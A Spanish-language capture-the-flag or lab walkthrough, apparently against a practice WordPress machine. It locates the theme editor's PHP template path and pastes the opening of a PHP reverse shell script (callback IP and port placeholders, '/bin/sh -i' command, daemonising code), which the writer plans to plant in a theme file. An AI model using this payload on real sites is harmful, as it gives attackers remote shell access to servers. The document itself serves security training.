 ### seguimos buscando información que nos sea útil. conseguimos una opción de apariencia de la pagina web que tiene un apartado de edición. aquí podemos ver archivos php. esto es información muy útil para nosotros.

![[2023-10-29_02-30.png]]

### en este caso podriamos buscar exactamenta la direccion url donde estan almacenados estos template para de esa manera poder utilizar un codigo php para ejecutar una reverseshell

#### direccion url: 10.10.141.53/web-conten/themes/twentyfifteen

### parece que esta es la direccion donde estan almacenados estos archivos php. asi que utilizaremos el siguiente codigo para intentar conseguir una reverse shell.

```python
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

```